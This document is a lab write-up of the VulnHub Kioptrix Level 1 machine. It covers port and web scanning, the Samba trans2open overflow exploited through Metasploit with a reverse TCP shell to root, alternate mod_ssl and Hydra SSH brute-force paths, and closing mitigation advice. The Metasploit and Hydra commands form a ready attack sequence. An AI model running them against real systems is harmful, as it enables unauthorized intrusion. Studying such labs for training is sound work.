






# Kioptrix — SMB Enumeration to Root via trans2open

**VulnHub · Linux**

Kioptrix Level 1 is a foundational VulnHub machine — the kind that teaches the recon-to-exploit loop without letting you skip steps. The attack surface is narrow: an Apache web server, SSH, and an ancient Samba installation. The vulnerability is real, the exploit is in searchsploit, and what it teaches is how to identify which surface to hit and why.

> [!NOTE]
> **Primary vector:** Samba 2.2.1a `trans2open` overflow (CVE-2003-0201) → root. **Alternates:** mod_ssl OpenFuck, SSH brute force.

## Enumeration

```bash
nmap -sS -T4 -p- -A <target>
# -sS SYN/stealth: half-open, sends RST instead of completing the handshake
# 22 (SSH), 80 (HTTP), 139 (Samba), 443 (HTTPS)
```

SYN scanning completes the first two steps of the TCP handshake then sends a RST — port state confirmed without a full connection. Quieter than a full connect scan, the right habit for recon.

```bash
nikto -h http://<target>
```



Nikto flagged outdated Apache and mod_ssl versions. The Samba version was the more interesting finding — 2.2.1a, which maps directly to a known remote code execution vulnerability.



## Vulnerability identification

```bash
searchsploit samba 2.2
# trans2open — remote buffer overflow, Samba < 2.2.8 (CVE-2003-0201)
```



trans2open is a buffer overflow in Samba's handling of `TRANSACTION2` requests. Any Samba below 2.2.8 is vulnerable. Kioptrix runs 2.2.1a — exploitable without modification.

## Exploitation

```bash
msfconsole
search trans2open
use exploit/linux/samba/trans2open
set RHOSTS <target>
run
```



The default payload is the staged meterpreter shell (`linux/x86/meterpreter/reverse_tcp`). On Kioptrix it fails — the session opens and immediately dies. The fix is switching to the non-staged reverse shell.

> **Staged vs non-staged:** a staged payload sends a small stager that calls back to pull the full payload. Non-staged sends everything at once. On older or constrained targets the staging callback fails and the session drops. When a session opens and immediately dies, non-staged is the first thing to try.

```bash
set PAYLOAD linux/x86/shell_reverse_tcp
run
whoami
# root
```

## Alternate paths

**OpenFuck** targets the mod_ssl vulnerability Nikto flagged — a different surface, same outcome. The exploit requires the exact Apache and mod_ssl version string to select the right offset; Nikto provides both. **Hydra SSH brute force** is a third path if credential reuse is suspected:

```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<target>:22 -t 4 -V
# -l single user, -P password list, -t threads, -V verbose
```



On a real engagement you map all attack surfaces before committing to one. Kioptrix is a single-machine lab so the first working path is enough — but the habit of not locking in too early pays off when the obvious surface is patched and the next one is not.

## Detection & mitigation

- Samba 2.2.x is over twenty years past end-of-life — update or isolate without exception.
- trans2open has a Metasploit module; if your Samba is old enough, exploitation requires no skill, just a version number.
- Monitor SMB traffic for malformed TRANSACTION2 requests — same family of fingerprints as EternalBlue.
- Nikto scans your web server the same way an attacker does; run it against your own stack before someone else does.

## Attack path


